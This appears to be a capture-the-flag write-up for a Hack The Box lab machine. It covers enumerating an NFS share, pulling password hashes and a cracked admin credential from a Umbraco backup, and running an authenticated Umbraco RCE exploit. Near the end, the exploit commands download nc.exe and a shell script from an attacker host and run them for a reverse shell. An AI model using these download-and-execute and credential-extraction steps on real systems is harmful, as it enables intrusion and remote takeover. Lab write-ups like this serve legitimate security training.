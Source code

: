 When we check some not-found page, it would not be 404 page
![](Pasted%20image%2020240914112003.png)

There is another port 2049 NSF would not be checked.
```
showmount -e 10.10.10.180      

Export list for 10.10.10.180:
/site_backups (everyone)

sudo mount -t nfs 10.10.10.180:/site_backups /mnt/

Then we can get the backup file of this web-service, let's enumeratet the valid credit.
```

By enumerate the backup, I can get 3 useful files
`Web.config, umbraco.config Umbraco.sdf`
The config files would be hard to read and I did not find anything useful, So I come to the `.sdf` file
```
strings Umbraco.sdf | head

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f

smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

```

I can guess that there’s an admin account, with email admin@htb.local, and password hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` that is a SHA1. There’s another user, smith, who has a password which is stored using HMACSHA256.

Then we get the credit `admin@htb.local:baconandcheese`

Let's try to login the `umbraco CMS` and try to exploit it.
Then we successfully login and we find the version `Umbraco version 7.12.4`, It is our target!!!!

```
First,we need to upload the nc.exe

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'wget http://10.10.14.65/nc64.exe -outfile C:/programdata/nc.exe'

Then we can just exec the bat or just exec the command

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'wget http://10.10.14.65/shell.bat -outfile C:/programdata/shell.bat

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "C:/programdata/shell.bat"

Finally, remember to open the netcat to handle the shell

Then we can get the user shell
```
